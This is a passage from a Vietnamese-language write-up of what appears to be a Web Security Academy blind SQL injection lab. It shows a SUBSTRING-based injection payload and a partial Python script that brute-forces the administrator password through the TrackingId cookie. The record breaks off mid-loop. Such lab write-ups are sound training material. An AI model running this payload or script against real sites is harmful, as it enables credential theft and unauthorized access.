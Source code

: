 Trong trường hợp dòng chữ `Welcome back!` được trả về tức là điều kiện `LENGTH(password)=§1§` đã đúng.

![image](images/lab-11/lab-11-3.png)

Sau khi chạy Burp Intruder, chúng ta xác định được độ dài của password là 20:

![image](images/lab-11/lab-11-4.png)

Với độ dài đã biết của password, chúng ta sẽ so sánh lần lượt từng ký tự trong password của `administrator`.

Ví dụ payload dưới sẽ so sánh ký tự thứ 2 trong password với ký tự `a`, nếu đúng sẽ có dòng chữ `Welcome back!` trong response.

```sql
' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1)='a
```

Để khai thác nhanh chóng, chúng ta có thể viết một script Python như sau:

```python
import requests
import string

url = "https://0add0018045a73ad8068941d00c80074.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId":f"' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1)='{j}"}

        r = requests.get(url, cookies=cookie)
        if "Welcome back!" in r.text:
```